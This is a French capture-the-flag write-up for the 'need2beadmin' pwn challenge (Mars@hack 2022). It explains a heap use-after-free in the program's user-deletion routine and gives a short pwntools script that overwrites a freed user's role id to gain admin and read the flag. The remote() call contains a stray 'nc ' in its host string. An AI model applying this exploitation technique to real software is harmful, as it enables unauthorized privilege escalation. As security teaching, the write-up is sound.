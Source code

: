 # Writeup for the challenge  **_`need2beadmin`_**  from Mars@hack 2022

- ## Challenge Information:

| - | - |
| ----------- | ----------- |
| Name: | **`need2beadmin`** |
| Category: | **`pwn`** |


- ## Découverte du challenge

En lançant le programme, on se retrouve avec une interface contenant:

- une liste de commandes

- une ligne qui contient notre nom d'utilisateur et notre rôle

![challenge](https://raw.githubusercontent.com/2600-CTF/Write-Up/master/CTF/Mars%40hack%202022/pwn/img/1.png)

En rentrant un chiffre correspondant à la commande, une fonction sera lancée.


- ## Analyse du code source

### Affichage du flag
Le flag s'affiche lorsque l'on passe par la fonction `switchAdmin()`, cette fonction est associé à la commande 
**`[7] Passer en mode Rouge`**.

2 vérifications sont faites pour obtenir le flag:
```c
if (!isAdmin(currentUser) | strcmp(currentUser->name, "Reine rouge") != 0) {
    printf("\nSeule la 'Reine rouge' peut accéder à cette interface.\n\n");
    
    //fflush(stdout);
    return;
  }
``` 
L'utilisateur actuel doit être `admin` et le nom de l'utilisateur doit être `Reine Rouge`, il faut donc être l'utilisateur numéro 1 pour avoir accès à cette interface.
```c
users[0] = newUser("Reine rouge", 1, 1); //struct User *newUser(char *name, unsigned int roleId, unsigned short privilege)
```

On se rend vite compte qu'on ne pourra pas récupérer cet utilisateur avec une utilisation normal du programme pour 2 raisons:
1. Il n'est pas possible de choisir le rôle `admin` en créant un utilisateur à moins d'être déjà `admin`
```c 
if (isAdmin(currentUser)) {
    user->role_id = roleId;
  } else if (strcmp(nameRoleNext, "Admin") != 0) {
    user->role_id = roleId;
  } else {
    printf("Tu dois être admin pour définir ce rôle.\n");
    //fflush(stdout);
    exit(-9);
}
```
2. Il n'est pas possible de créer un utilisateur avec le même nom qu'un utilisateur existant, impossible alors d'obtenir un 2ème utilisateur **`Reine rouge`**
```c
if (userExist(name)) {
    printf("L'utilisateur existe déjà.\n");
    //fflush(stdout);
    exit(-7);
}
```

-----

### Changement de rôle

Une autre fonction semble cependant pouvoir être utilisée: `switchUser()`
```c
void switchUser(char *userName) {
  if (!isAdmin(currentUser)) {
    printf("Seul les utilisateurs ayant le rôle 'Admin' peuvent accéder à cette fonctionnalité.\n");
    //fflush(stdout);
    return;
  }

  if (!userExist(userName)) {
    printf("L'utilisateur n'existe pas.\n");
    //fflush(stdout);
    return;
  }

  currentUser=getUser(userName);
}
```
---

Elle permet de choisir n'importe quel utilisateur à condition d'avoir le rôle `admin`, gardons cela en tête et continuons notre analyse.

### Detection de la vulnérabilité

2 structures sont définies:  `Role` et `User` 
```c
struct Role {
  unsigned int id;
  char name[8];
  char alias[8];
};

struct User {
  char name[16];
  unsigned int role_id;
};
```
Leur taille en mémoire est identique: 16 `char` et un `unsigned int` soit 16 * 1 + 1 * 4 = 20 octet par structure

Ce genre de structures, ainsi qu'un programme offrant une liste de choix, se retrouvent souvent utilisés dans les challenges consistant à manipuler la heap avec un **`use-after-free`** ou un **`double free`**.

Pour confirmer cette théorie, on regarde les fonctions associées aux commandes "Supprimer un utilisateur" et "Supprimer un role" pour voir comment `free()` est utilisé.

```c 
void delUser() {
  char name[memberSize(struct User, name)];

  memcpy(name, currentUser->name, sizeof(name));

  if (numberOfUsers <= MIN_USERS) {
    printf("Besoin d'un minimum de %i utilisateurs.\n", MIN_USERS);
    //fflush(stdout);
    exit(-5);
  }

  free(currentUser);
  users[numberOfUsers-1] = NULL;
  printf("Utilisateur '%s' supprimé\n\n", name);
  //fflush(stdout);

  numberOfUsers--;
}
```

Bingo, dans les fonction `delUser()` on peut voir que le pointeur `currentUser` n'est pas remit à **`NULL`** après le `free()`;

Le **`use-after-free`** se confirme: Si l'on arrive à avoir à attribuer a même adresse mémoire à l'utilisateur actuel puis à un rôle on pourra réécrire la variable `role_id` de la structure `User` et lui donner la valeur 1 afin d'obtenir un profil administrateur.

- ## Analyse du code source

Notre exploit sera le suivant:

```python
from pwn import *

#n'ayant
challenge = remote("nc game1.marshack.fr", 31003)

# Création d'un utilisateur
challenge.sendline(b"3")

# Nom de l'utilisateur
challenge.sendline(b"test_user")
# Rôle de l'utilisateur
challenge.sendline(b"2")

# Destruction de l'utilisateur
challenge.sendline(b"5")

# Création du rôle
challenge.sendline(b"4")

# Remplissage des 8 1ers bytes
challenge.sendline(b"A"*8)
# Overwrite de l'id de l'utilisateur
challenge.sendline(b"A"*4 + b"\x01\x00\x00\x00")

challenge.interactive()
```

Pour représenter ce qu'il se passe (en prenant une adresse memoire théorique de `0x00000000`):

1. Création de l'utilisateur à l'adresse `0x00000000`
 ```mermaid
graph LR
F((currentUser)) --> A[0x00000000]
A --> C[0x00000000: name] --> E[''test_user'']
A --> D[0x00000010: id] --> B[2]
```
2. `free(currentUser)`: l'adresse `0x00000000` redevient disponible pour un malloc
3. Création du rôle sur l'adresse `0x00000000`: Les valeurs de currentUser sont overwrite
 ```mermaid
graph LR
F((rôle)) --> A[0x00000000]
A --> C[0x00000000: id] --> E[4]
A --> Z[0x00000004: name] --> G[''AAAAAAAA'']
A --> D[0x0000000C: alias] --> B[''AAAA\x01\x00\x00\x00'']
```
4. Valeurs de `currentUser` après la création du rôle
 ```mermaid
graph LR
F((currentUser)) --> A[0x00000000]
A --> C[0x00000000: name] --> E[''\x04\x00\x00\x00AAAAAAAAAAAA'']
A --> D[0x00000010: id] --> B[1]
```

On se retrouve alors avec un utilisateur sans nom mais possédant le rôle `admin`
![challenge](https://raw.githubusercontent.com/2600-CTF/Write-Up/master/CTF/Mars%40hack%202022/pwn/img/exploit.png)

Il suffit ensuite de changer d'utilisateur pour récupérer le profil **`Reine rouge`**

![challenge](https://raw.githubusercontent.com/2600-CTF/Write-Up/master/CTF/Mars%40hack%202022/pwn/img/flagged.png)

Flag : **`fl@g{NeMeDebranchezPas!OuVousMourrerezTous}`**l
